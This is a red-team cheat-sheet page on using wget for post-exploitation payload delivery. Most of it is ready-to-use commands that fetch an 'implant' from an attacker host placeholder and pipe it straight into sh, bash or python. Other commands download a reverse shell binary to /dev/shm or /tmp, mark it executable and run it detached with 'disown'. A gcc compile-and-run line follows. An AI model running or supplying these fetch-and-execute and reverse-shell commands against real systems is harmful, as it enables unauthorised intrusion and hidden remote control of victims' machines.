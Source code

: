 # Wget

## 01 - Fileless Code Execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget --no-hsts -qO- http[s]://<IP>/implant.sh | sh

$ wget --no-hsts -qO- http[s]://<IP>/implant.sh | bash

$ wget --no-hsts -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping On Memory

> [!INFO] Got Permission Denied!
> If you get a `Permission denied` error while executing it in `/dev/shm/`. Check the [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xM - System and Kernel Version/Manual/Living off the Land#^017cc1|mounted drives]] if `noexec` is configured. Otherwise execute it with a [[#01 - Fileless Code Execution|fileless]] method.

Download reverse shell binary and execute it.

```
$ wget --no-hsts -P /dev/shm http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown

$ wget --no-hsts -O /dev/shm/implant http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown
```

## 03 - Dropping On Disk

Download reverse shell binary and execute it.

```
$ wget --no-hsts -O /tmp/implant http[s]://<IP>/implant; chmod +x /tmp/implant; /tmp/implant & disown
```

## 04 - Compiled After Delivery

TODO: Fill this info

```
$ gcc -o implant implant.c && implant & disown
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### GTFOBins

- [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/)

### GTFOArgs

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)

### DMCXBlue

- [DMCXBlue: Attachments - Scripting Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-scripting-files)